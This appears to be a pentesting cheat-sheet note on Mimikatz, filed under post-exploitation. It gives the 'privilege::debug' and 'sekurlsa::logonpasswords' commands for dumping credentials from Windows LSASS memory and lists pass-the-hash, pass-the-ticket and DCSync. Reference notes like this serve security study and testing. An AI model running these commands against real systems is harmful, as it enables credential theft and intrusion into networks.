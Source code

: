 ```yaml
---
type: tool
phase:
  - "[[Post Exploitation]]"
order: "6"
tags:
  - mimikatz
  - tools
---
```

# 🧪 Mimikatz

## Description
Advanced tool to extract plaintext passwords, hashes, PIN codes and Kerberos tickets from memory on Windows.

## Usage
```bash
privilege::debug
sekurlsa::logonpasswords
```
## Features
- Dump creds from LSASS
- Pass-the-hash
- Pass-the-ticket
- DCSync
## 🔗Related Phases
[[Post Exploitation]]
## Reference
- 🌐 [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)